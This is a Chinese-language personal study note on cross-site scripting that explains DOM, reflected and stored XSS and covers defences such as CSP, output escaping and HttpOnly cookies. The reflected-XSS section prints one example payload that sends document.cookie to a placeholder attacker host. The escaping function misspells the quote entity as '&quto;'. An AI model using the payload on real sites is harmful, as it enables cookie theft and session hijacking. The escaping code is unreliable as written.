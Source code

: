 <!--
 * @Author: your name
 * @Date: 2020-03-07 14:18:48
 * @LastEditTime: 2020-03-19 20:37:44
 * @LastEditors: Please set LastEditors
 * @Description: In User Settings Edit
 * @FilePath: \RW 笔记\web安全\介绍.md
 -->

[常见六大Web安全攻防解析](https://www.cnblogs.com/fundebug/p/details-about-6-web-security.html)



防御方式：
> + CSP
> CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。
设置 HTTP Header 中的 Content-Security-Policy
设置 meta 标签的方式

>+ 转义字符
```js
  function escape(str) {
    str = str.replace(/&/g, '&amp;')
    str = str.replace(/</g, '&lt;')
    str = str.replace(/>/g, '&gt;')
    str = str.replace(/"/g, '&quto;')
    str = str.replace(/'/g, '&#39;')
    str = str.replace(/`/g, '&#96;')
    str = str.replace(/\//g, '&#x2F;')
    return str
  }
  ```
> + HttpOnly Cookie。

# 介绍

xss: 跨站脚本攻击（Cross Site Scripting，本来缩写是CSS，为了和层叠样式的CSS有所区别，所以在安全领域叫“XSS”。）是最常见和基本的攻击 WEB 网站方法。

XSS 的原理是恶意攻击者往 Web 页面里插入恶意可执行网页脚本代码，当用户浏览该页之时，嵌入其中 Web 里面的脚本代码会被执行，从而可以达到攻击者盗取用户信息或其他侵犯用户安全隐私的目的。



# XSS主要分为三类
## DOM XSS
实际上就是前端 js 代码把不可信的内容插入到了页面。在使用 .innerHTML、.outerHTML、.appendChild、document.write()等API时要特别小心，不要把不可信的数据作为 HTML 插到页面上，尽量使用 .innerText、.textContent、.setAttribute() 等。

## 反射型 XSS 

反射型XSS也被称为非持久性XSS，是现在最容易出现的一种XSS漏洞。发出请求时，XSS代码出现在URL中，最后输入提交到服务器，服务器解析后在响应内容中出现这段XSS代码，最后浏览器解析执行。也就是说，黑客往往需要引诱用户点击一个非法链接，才能攻击成功。
例如一个非法连接中可能存在这样一个script：
```html
<script>window.open('http://xx.xx.xx.xx:8080/ck.php?c='+document.cookie)</script>
```
当执行这个非法链接后，即可将用户的cookie写入到xx.xx.xx.xx的服务器下的cookie.txt文件中。


## 存储型 XSS :

存储型XSS又被称为持久性XSS，它是最危险的一种跨站脚本，相比反射型XSS和DOM型XSS具有更高的隐蔽性，所以危害更大，因为它不需要用户手动触发。 允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。

## XSS预防：

1、过滤特殊字符

2、设置httpOnly，浏览器将禁止页面的JS访问带有HttpOnly属性的Cookie。HttpOnly解决的是XSS后的Cookie劫持攻击。

3、在服务端使用 HTTP的CSP( Content-Security-Policy) 头部来指定策略，或者在前端设置 meta 标签。

[内容安全策略CSP（Content-Security-Policy）](https://blog.csdn.net/u014465934/article/details/84199171)